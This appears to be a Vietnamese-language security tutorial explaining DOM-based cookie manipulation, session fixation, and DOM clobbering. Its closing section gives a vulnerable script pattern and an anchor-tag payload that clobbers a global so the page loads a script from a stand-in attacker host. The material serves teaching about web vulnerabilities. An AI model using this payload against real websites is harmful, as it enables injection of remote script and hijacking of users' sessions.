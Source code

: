 ## What is DOM-based cookie manipulation?

Một số lỗ hổng dựa trên DOM-based cho phép kẻ tấn công thao túng dữ liệu mà chúng thường không kiểm soát. Điều này chuyển đổi các loại dữ liệu thường an toàn, chẳng hạn như cookie, thành các nguồn tiềm năng. Các lỗ hổng thao túng cookie dựa trên DOM phát sinh khi một tập lệnh ghi dữ liệu có thể kiểm soát của kẻ tấn công vào giá trị của cookie.

### What is cookie ?

Cookie là những file nhỏ được lưu trữ trên thư mục trình duyệt. Cookie được tạo ra khi người dùng sử dụng trình duyệt của mình để truy cập trang web có sử dụng cookie để theo dõi thao tác của người dùng trên trang web, giúp bạn lưu phiên làm việc, ghi nhớ đăng nhập, chủ để lựa chọn hay tùy chọn các chức năng tùy chỉnh khác.

Chính bởi khả năng như vậy nên Cookie là 1 phần không thể thiếu đối với các trang web có CSDL lớn, cần đăng nhập, có chủ đề tùy chỉnh và các tính năng nâng cao khác.

Cookie lưu dữ liệu dưới dạng key - value, có thời gian tồn tại (Do phía nhà phát triển quy định). Khi cookies đã được đọc bởi máy chủ hoặc máy khách, dữ liệu có thể được truy xuất và sử dụng để tùy chỉnh trang web một cách thích hợp.

### Impact of a DOM-based cookie-manipulation

Tác động tiềm ẩn của lỗ hổng này phụ thuộc vào vai trò của cookie trong trang web. Nếu cookie được sử dụng để kiểm soát hành vi phát sinh từ các hành động nhất định của người dùng.

Nếu cookie được sử dụng để theo dõi phiên của người dùng, thì hacker có thể thực hiện một session fixation attack, trong đó chúng đặt giá trị của cookie thành mã thông báo hợp lệ mà chúng đã lấy được từ trang web và sau đó chiếm đoạt phiên trong tương tác tiếp theo của nạn nhân với trang web. Một lỗ hổng thao túng cookie như thế này có thể được sử dụng để tấn công không chỉ trang web dễ bị tấn công mà còn bất kỳ trang web nào khác trong cùng miền.

## What is DOM clobbering?
DOM-clobbering là một kỹ thuật trong đó bạn đưa HTML vào một website để thao tác với DOM và cuối cùng thay đổi JavaScript trên trang. Dom-clobbering đặc biệt hữu ích trong những trường hợp không thể thực hiện được XSS, nhưng có thể kiểm soát một số HTML trên trang có id hoặc name được bộ lọc HTML đưa vào whitelist. Hình thức phổ biến nhất của DOM-clobbering là sử dụng một phần tử neo để ghi đè lên một biến toàn cục, biến này sau đó được ứng dụng sử dụng, chẳng hạn như tạo URL tập lệnh động.

### Exploit DOM-clobbering

1 kiểu khai báo phổ biến mà Javascript dùng là : 
```
var someObject = window.someObject || {};
```

Nếu chúng ta có thể kiểm soát HTML trên web, thì chúng ta có thể dùng DOM để chặn tham chiếu của someObject bằng đoạn mã sau : 
```
<script>
  window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
  };
</script>
```
Để khai thác ta có thể chèn HTML sau để chặn tham chiếu someObject bằng một phần tử neo:
```
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```
Vì 2 neo này đều sử dụng chung id, DOM sẽ gộp chúng chúng lại với điều đó dẫn đến tham chiếu someObject bị đè, và có thể dẫn đến 1 tập lệnh ở phía ngoài.

